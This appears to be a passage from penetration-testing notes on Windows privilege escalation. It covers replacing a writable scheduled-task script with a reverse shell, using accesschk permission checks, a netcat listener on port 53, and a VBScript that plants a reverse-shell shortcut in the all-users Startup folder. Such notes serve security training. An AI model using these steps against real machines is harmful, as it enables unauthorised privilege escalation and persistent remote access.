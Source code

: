 Did you find a potential scheduled task?

1. Use Access Check to verify vulnerability

```
accesschk.exe /accepteula -quv user CleanUp.ps1
# Ask yourself can you write to this file from the output?
```

2\. Create a Netcat listener

```
nc -lnvp 53
```

3\. Create a backup of the scheduled task

```
copy CleanUp.ps1 C:\Temp
```

4\. Transfer a reverse shell executable to the compromised host in the directory the scheduled task was found (use the same name as the scheduled task for the reverse shell).&#x20;

5\. Wait for the scheduled task to run and you will be granted a shell!

### Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory.

<mark style="color:red;">Windows has a startup directory for apps that should start for all users:</mark>

<mark style="color:yellow;">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</mark>

* If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.&#x20;

How to Detect:

1. Use Access Check to find the permissions in the global startup programs directory&#x20;

```
.\accesscheck.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Start Up"
```

2\. A vbs shortcut must be placed here with the contents of a shortcut to your reverse shell file.

* CreateShortcut.vbs (This is the shortcut file)
* reverse.lnk (Link file)
* reverse.exe (reverse shell executable)

Content of CreateShortcut.vbs

```
set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\..\reverse.exe"
oLink.Save
```

